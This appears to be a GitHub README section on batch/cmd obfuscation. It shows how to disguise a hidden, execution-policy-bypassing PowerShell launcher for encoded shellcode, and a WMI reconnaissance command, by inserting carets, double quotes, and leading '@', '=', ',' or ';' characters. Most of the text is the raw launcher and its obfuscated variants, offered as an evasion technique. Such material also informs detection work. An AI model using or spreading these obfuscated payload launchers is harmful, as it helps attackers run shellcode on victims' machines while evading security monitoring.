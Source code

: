
<br /><br /><br />

## Batch Obfuscation (cmd-bat)

String to obfuscate<br />

      cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode


String obfuscated<br />

      cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode

---

String to obfuscate<br />

      cmd.exe /c powershell.exe Get-WmiObject -Class win32_ComputerSystem

String obfuscated<br />

      c"m"d.ex"e" /c pow"e"r"s"hell"."e"x"e G"e"t"-"Wmi"O"bje"c"t -Cl"a"ss win32_ComputerSystem

![rr](https://user-images.githubusercontent.com/23490060/94753079-0b4c1000-0385-11eb-80b5-9712ae6d8a17.png)
`HINT: In tests conducted i was not been able to use 2 letters inside double quotes (eg. c"md".exe)`

---

Any formula under the **batch interpreter** can be started with the follow special characters: **`@`** or **`=`** or **`,`** or **`;`**

      =cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode

      @cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode

      ,cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode

      ;cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode


      cmd.exe /c @powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode

      cmd.exe /c =powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode

String obfuscated<br />

      @c^m"d".ex^e /c ,p"o"wer^s^hell"."ex^e G"e"t"-"Wm^i"O"bje"c"t -Cl"a"s^s win32_ComputerSystem

![last](https://user-images.githubusercontent.com/23490060/94753411-0dfb3500-0386-11eb-9014-2103d88b677e.png)
---

<br />

Further obfuscation adding ramdom whitespaces + commas + semi-collons + carets + double quotes<br />
HINT: Empty space technic can't be used to brake the command argument, but used between them.

<br />
